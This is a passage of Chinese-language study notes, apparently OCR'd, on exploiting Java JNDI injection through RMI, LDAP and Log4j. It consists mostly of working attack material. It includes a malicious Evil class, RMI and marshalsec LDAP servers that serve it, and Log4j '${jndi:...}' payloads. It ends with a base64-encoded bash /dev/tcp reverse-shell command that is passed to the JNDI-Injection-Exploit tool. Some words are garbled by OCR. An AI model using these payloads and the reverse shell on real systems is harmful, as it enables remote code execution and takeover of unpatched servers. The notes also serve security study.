## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。

**简单案例**
恶意类，编译.class放在8080http服务
```
import java.io.IOException;​
public class Evil {​
        static {​
                try {​
                        Runtime.getRuntime().exec("calc");​
                } catch (IOException e) {​
                        throw new RuntimeException(e);​
                }​
        }​
}
```
RMI服务端，使用Reference引用http上的class文件
```
public class Refer {​
        public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {​
                String url = "http://127.0.0.1:8080/";​
                Registry registry = LocateRegistry.createRegistry(1099);​
                System.out.println("Registry start");​
                Reference reference = new Reference("test", "Evil", url);​
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);​
                registry.bind("aa",referenceWrapper);​
        }​
}
```
被攻击的客户端使用JNDI
```
public class Client {​
        public static void main(String[] args) throws NamingException {​
                Context context=new InitialContext();​
                String url="rmi://127.0.0.1:1099/aa";​
                context.lookup(url);​
        }​
}
```


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **存在JNDI注入的入口类方法**
即存在new InitialContext().lookup()
常见有类com.sun.rowset.JdbcRowSetImpl，其中有个dataSourceName方法中。




^
## **log4j的JNDI注入**
```
使用${jndi:}后，底层使用了new InitialContext().lookup()
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
logger.error("${jndi:ldap://127.0.0.1:1099/Evil}");
```

```
仅测试dnslog即可，一般有结果就一定存在注入
logger.info("${jndi:ldap://xx.dnslog.cn}");
```

^
## **一键搭建LDAP或RMI利用服务**

JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。

```
java8 -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc"

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}


注意反弹shell命令需要base64编码
bash -i >& /dev/tcp/（你服务器的公网IP地址）/8888（监听的端口号，我这里使用的是8888端口） 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==（这是上一行代码的base64编码）

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" -A "（你服务器的公网IP地址）"
```

